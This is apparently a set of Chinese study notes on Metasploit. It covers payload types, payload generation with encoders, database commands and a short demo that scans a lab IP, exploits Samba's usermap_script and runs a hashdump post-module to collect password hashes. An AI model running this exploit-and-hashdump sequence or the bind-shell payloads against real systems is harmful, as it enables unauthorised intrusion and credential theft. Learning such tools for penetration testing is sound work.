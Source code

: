 内联Inline/Stager/Meterpreter（注入到内存中，不在硬盘留痕迹）

PassiveX（通过ActiveX）/ NoNX（No NoeXecute 绕过系统NX/DEP）

Ord/IPv6/Reflective DLL injection

### 生成 Payload

```shell
use payload/windows/shell_bind_tcp
show options
generate
  -h
  -o <filename> # output file
  -f <format> # output format
  -e <encoder> # specify encoder
  -b '\x00' # disallow special byte
  -i <count> # iteration
  -n <size> # nopsled at the beginning
  <option>=<value> ...
```

fun fact：只去除`\x00`时使用的是`x86/shikata_ga_nai`，而多加一些使用的是其他的Encoder

### 数据库

```shell
help database

services
  -p <port>
  -c
  -S <pattern> # Search
hosts
  -c <column>
  -R # set RHOSTS from result
workspace
  -a # add
  -d # delete
creds
  add user:<name> password:<pw> realm:<group>
loot
  
 
db_import <xml>
db_export
  -f
```

### 简单示范

```shell
db_nmap -A -T4 192.168.20.134
use exploit/multi/samba/usermap_script
hosts -R
run
background
sessions
use post/linux/gather/hashdump
show options
set session 1
run
loot
```
